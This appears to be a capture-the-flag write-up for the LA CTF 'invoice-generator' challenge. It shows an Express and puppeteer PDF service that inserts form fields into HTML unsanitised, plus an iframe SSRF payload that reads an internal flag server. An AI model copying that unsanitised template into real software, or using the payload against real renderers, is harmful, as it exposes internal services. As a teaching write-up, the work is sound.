


## lactf-invoice-generator  



We are given a website that allows us to create a customised invoice PDF by supplying some arguments.  

After generating the invoice template, the server will visit the template as a HTML page with `puppeteer`, and will return the rendered page as a PDF.  

```js
app.post("/generate-invoice", async (req, res) => {
  try {
    const { name, item, cost, datePurchased } = req.body;

    if (!name || !item || !cost || !datePurchased) {
      return res.status(400).send("All fields are required");
    }

    const invoiceHTML = generateInvoiceHTML(
      name,
      item,
      parseFloat(cost),
      datePurchased,
    );

    let browser;
    try {
      browser = await puppeteer.launch({
        headless: true,
        args: ["--js-flags=--jitless", "--incognito"],
      });

      const page = await browser.newPage();
      await page.setViewport({ width: 821, height: 1159 });
      await page.setContent(invoiceHTML, { waitUntil: "load" });

      const pdf = await page.pdf({
        format: "A4",
        printBackground: true,
        margin: 0,
      });

      res.contentType("application/pdf");
      res.setHeader(
        "Content-Disposition",
        `attachment; filename="invoice-${Date.now()}.pdf"`,
      );
      res.end(pdf);
    } finally {
      if (browser) {
        await browser.close();
      }
    }
  } catch (error) {
    res.status(500).send("Error generating invoice");
  }
});
```

There is also a separate flag server running that will return HTML content containing the flag when we visit the `/flag` endpoint, but the server isn't publicly exposed.  

```js
const http = require("http");

const FLAG = process.env.FLAG || "lactf{fake_flag}";
const PORT = 8081;

const server = http.createServer((req, res) => {
  if (req.method === "GET" && req.url === "/flag") {
    res.writeHead(200, { "Content-Type": "text/html" });
    res.end(`<div><strong>FLAG:</strong> ${FLAG}</div>`);
    return;
  }
  res.writeHead(404, { "Content-Type": "text/plain" });
  res.end("Not found");
});

server.listen(PORT, () => {
  console.log(`Flag service running on port ${PORT}`);
});
```

In `generateInvoiceHTML()`, we can see that it directly injects our inputs into the tmeplate, and there isn't any validation at all.  

```js
function generateInvoiceHTML(name, item, cost, datePurchased) {
  const invoiceNumber = Math.floor(Math.random() * 100000)
    .toString()
    .padStart(6, "0");
  const currentDate = new Date().toLocaleDateString("en-US", {
    year: "numeric",
    month: "long",
    day: "numeric",
  });

  return `
    <!DOCTYPE html>
    <html>
    <head>
      <meta charset="UTF-8">
      <title>Invoice</title>
    ...

      <div class="invoice-details">
        <div>
          <strong>Invoice Number:</strong>
          ${invoiceNumber}
        </div>
        <div>
          <strong>Invoice Date:</strong>
          ${currentDate}
        </div>
      </div>

      <div class="customer-info">
        <strong>Bill To:</strong>
        ${name}
      </div>
    ...
    </body>
    </html>
  `;
}
```

We can perform SSRF by embedding the flag server link in our HTML payload.  

Looking at `docker-compose.yml`, we can see that the hostname of the server is `flag`.  

```yaml
services:
  invoice-generator:
    build: ./invoice-generator
    ports:
      - "3000:3000"
    networks:
      - app-network
    depends_on:
      - flag

  flag:
    build: ./flag
    networks:
      - app-network

networks:
  app-network:
    driver: bridge
```

The Dockerfile also shows that the flag server is running on port `8081`.  

```docker
FROM node:20-alpine

WORKDIR /app

COPY flag.js ./

EXPOSE 8081

CMD ["node", "flag.js"]
```

We can then craft a payload that will render the flag in an `iframe`.  

```html
<iframe src="http://flag:8081/flag"></iframe>
```

Sending our payload to `/generate-invoice` will then get the server to return a PDF containing the flag.  



Flag: `lactf{plz_s4n1t1z3_y0ur_purch4s3_l1st}`